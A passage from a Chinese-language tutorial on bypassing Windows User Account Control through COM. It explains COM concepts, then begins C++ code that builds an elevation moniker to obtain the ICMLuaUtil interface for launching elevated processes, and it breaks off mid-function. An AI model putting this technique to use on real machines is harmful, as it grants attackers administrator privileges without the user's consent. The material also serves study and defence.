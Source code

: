 

# 通过Com组件BypassUAC

## 什么是Com组件

COM（Component Object Model）是微软提出的一种软件组件体系结构，广泛应用于Windows操作系统。它允许开发人员创建可重用的对象，这些对象能够在多个程序或项目中交互。COM是一种语言无关的技术，意味着可以用多种编程语言创建和使用COM对象。下面是COM的一些主要特点和概念：

### 1.对象和接口

- **对象**：在COM中，对象是具体实现，它们包含数据和操作这些数据的代码。对象通常是由类实例化而成。
- **接口**：接口是一组相关函数的集合，它定义了对象的行为。接口是与对象分离的，这意味着多个对象可以实现同一个接口。



### 2.类ID和接口ID

- **类ID (CLSID)**：每个COM对象都有一个唯一的CLSID，用于在系统中标识对象。
- **接口ID (IID)**：每个接口都有一个唯一的IID，用于识别接口。



### 3.COM库和函数

COM提供了一系列库和函数来支持对象的创建、管理和通信

例如使用`CoCreateInstance` 和`CoInitialize`函数来创建COM对象和初始化COM库



### 4.注册与发现

COM对象通常在注册表中注册，这样客户端程序就可以发现和创建对象



## 实现思路

在COM组件中有一个名为`ICMLuaUtil`的接口，该接口提供了一个名为`ShellExec`的函数，它可以启动具有更高权限的进程



### 1.创建高权限COM对象

首先定义了一个`CoCreateInstanceAsAdmin`的函数，该函数使用了COM的`CoGetObject`方法来尝试以管理员权限创建COM对象并返回`ICMLuaUtil`接口的指针

```cpp
// 以管理员权限创建COM对象 
HRESULT CoCreateInstanceAsAdmin(HWND hwnd, REFCLSID rclsid, REFIID riid, __out void** ppv)
{

	BIND_OPTS3 bo;
	WCHAR  wszCLSID[50];
	WCHAR  wszMonikerName[300];

    // 将CLSID转换为字符串
	StringFromGUID2(rclsid, wszCLSID, sizeof(wszCLSID) / sizeof(wszCLSID[0]));
	
    // 构造Moniker字符串，用于指定要以管理员权限创建或获取的对象
    // Moniker字符串包含了必要的信息来定位和激活COM对象
    HRESULT hr = StringCchPrintf(wszMonikerName, sizeof(wszMonikerName) / sizeof(wszMonikerName[0]), L"Elevation:Administrator!new:%s", wszCLSID);
	if (FAILED(hr))
		return hr;
	
    // 初始化BIND_OPTS3结构
    memset(&bo, 0, sizeof(bo));
	bo.cbStruct = sizeof(bo);
```